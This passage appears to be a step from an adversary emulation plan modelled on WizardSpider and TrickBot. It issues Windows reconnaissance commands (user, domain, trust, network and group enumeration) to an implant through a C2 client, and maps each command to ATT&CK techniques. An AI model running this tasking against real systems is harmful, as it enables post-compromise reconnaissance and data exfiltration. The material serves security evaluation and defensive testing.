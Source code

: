 From your C2 server tab, execute the following commands.

```bash
./evalsC2client.py --set-task TrickBot-Implant "systeminfo"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "sc query"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "net user"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant  "net user /domain"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "ipconfig /all"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "netstat -tan"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "net config workstation"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "nltest /domain_trusts /all_trusts"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "whoami /groups"
```
| TTP | Notes |
| -------- | ------- |
| T1041 | WizardSpider exfiltrates information over C2 channel |
| T1082  | WizardSpider gathers victim host information |
| T1007   | WizardSpider gathers system service information |
| T1087.001  | WizardSpider collects user information |
| T1087.002  | WizardSpider collects domain user information |
| T1016  | WizardSpider gathers network information |
| T1049   | WizardSpider gathers network connections information |
| T1016 | WizardSpider gathers domain network configurations information |
| T1482  | WizardSpider gathers domain trust information |
| T1069.001  | WizardSpider gathers groups information |

## Step 6 - Kerberoast the DC
